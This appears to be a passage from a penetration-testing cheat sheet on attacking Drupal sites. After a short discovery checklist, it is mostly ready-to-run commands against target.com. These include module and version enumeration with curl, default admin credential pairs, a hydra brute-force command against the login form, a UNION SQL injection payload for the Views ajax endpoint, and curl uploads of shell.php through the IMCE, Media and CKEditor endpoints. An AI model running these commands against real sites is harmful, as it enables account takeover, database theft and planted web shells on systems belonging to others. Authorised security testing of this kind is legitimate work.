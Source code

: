 ### Drupal Security Testing

#### Discovery Checklist
- [ ] Drupal version identification
- [ ] Module enumeration (contrib and custom)
- [ ] Theme identification
- [ ] User role analysis
- [ ] Administrative interface access
- [ ] Configuration file exposure

#### Module Testing
```bash
# Common vulnerable modules
curl http://target.com/sites/all/modules/views/
curl http://target.com/sites/all/modules/cck/
curl http://target.com/sites/all/modules/imce/
curl http://target.com/sites/all/modules/fckeditor/

# Module version detection
curl http://target.com/sites/all/modules/views/views.info
curl http://target.com/sites/all/modules/cck/cck.info
```

#### Authentication Testing
```bash
# Default credentials testing
admin:admin
admin:password
admin:drupal
administrator:admin

# Brute force login
hydra -l admin -P passwords.txt target.com http-post-form "/user/login:name=^USER^&pass=^PASS^&form_id=user_login&op=Log+in:Sorry"
```

### Common Drupal Vulnerabilities

#### SQL Injection in Modules
```bash
# Views module SQLi
curl "http://target.com/views/ajax?view_name=test&view_display_id=page_1" \
  -d "view_args=1' UNION SELECT 1,2,3,4,5-- -"

# Custom module testing
curl "http://target.com/?q=vulnerable_module&id=1'"
```

#### File Upload Vulnerabilities
```bash
# IMCE file manager
curl http://target.com/imce

# Media module uploads
curl -X POST -F "files[]=@shell.php" \
  http://target.com/file/ajax/field_image/und/0/form-token

# CKEditor file uploads
curl -X POST -F "upload=@shell.php" \
  http://target.com/admin/config/content/formats/ckeditor_upload
```
